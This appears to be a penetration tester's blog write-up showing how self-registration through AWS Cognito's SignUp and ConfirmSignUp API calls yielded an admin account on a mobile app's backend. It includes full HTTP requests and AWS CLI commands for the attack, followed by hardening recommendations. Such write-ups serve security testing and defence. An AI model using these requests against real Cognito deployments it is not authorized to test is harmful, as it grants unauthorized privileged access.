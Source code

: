 +++
date = '2025-02-01T10:20:20+04:00'
draft = false
title = 'Creating Admin user on Misconfigured AWS Cognito Instance'
hideSummary= true
+++

When I was working on an Android/iOS pentest engagement
I discovered that the application’s backend significantly depends on AWS Cognito

## What is AWS Cognito?
>Amazon Cognito is a service provided by Amazon Web Services (AWS) that simplifies the process of adding user authentication, authorization, and user management to your web and mobile applications. It allows developers to easily integrate sign-up, sign-in, and 
access control features into their applications without having to build and manage these capabilities from scratch.Users can sign in directly with a user name and password or via a third-party service such as Facebook, Amazon, Google, or Apple.


Even after bruteforcing no admin account signup page found and 3rd party login like facebook,google was also disabled.


Then I attempted to create an admin account by using the AWS Cognito API calls directly.

We can create a user by submitting an API call ```AWSCognitoIdentityProviderService.sign-up``` request.

```
POST / HTTP/1.1
Content-Type: application/x-amz-json-1.1
X-Amz-Target: AWSCognitoIdentityProviderService.SignUp
cache-control: no-cache
User-Agent: REDACTED
Accept: */*
Host: cognito-idp.us-west-2.amazonaws.com
Accept-Encoding: gzip, deflate
Content-Length: 251
Connection: close

{
"ClientId": "[READACTED]",
   "Username": "3p1c",
  "Password":"PASSWORD",
  "UserAttributes":[ { 
      "Name" : "email",
      "Value" : "3p1c@email.com"
 } ,{ 
      "Name" : "name",
      "Value" : "REDACTED"
 } 
 ]
}
```
and that request returns the confirmation code XXXXXX, which can be used to validate the Signup admin account.

Now sending API call ```AWSCognitoIdentityProviderService.ConfirmSignUp``` with confirmation code will validate our new administrator account.

```
POST / HTTP/1.1
Content-Type: application/x-amz-json-1.1
X-Amz-Target: AWSCognitoIdentityProviderService.ConfirmSignUp
cache-control: no-cache
User-Agent: REDACTED
Accept: */*
Host: cognito-idp.us-west-2.amazonaws.com
Accept-Encoding: gzip, deflate
Content-Length: 100
Connection: close

{
"ClientId": "REDACTED",
   "Username": "3p1c",
 "ConfirmationCode":"532977"
}
```

And now I can use my new login credentials to access admin privileges on iOS and Android app.


### With AWS cli 
The AWS cli tool can be used to make the same steps.

This command will generate a new account sign-up.
```
aws cognito-idp sign-up --client-id {REDACTED} --username 3p1c@email.com --password PASSWORD --user-attributes Name="email",Value="3p1c@email.com" Name="given_name",Value="Attacker" "Name"="family_name","Value"="Something" --region eu-west-2
```

This will validate our newly created account. 
```
aws cognito-idp confirm-sign-up --client-id {REDACTED} --username=3p1c@email.com --confirmation-code XXXXXX
```

### Recommendations
- Turn off AWS Cognito signup if it is not necessary.
- When configuring AWS Cognito for authenticated and unauthenticated identities, never grant more privileges than are required.
- Protect application users from unwanted access by utilizing Amazon Cognito’s sophisticated security features.
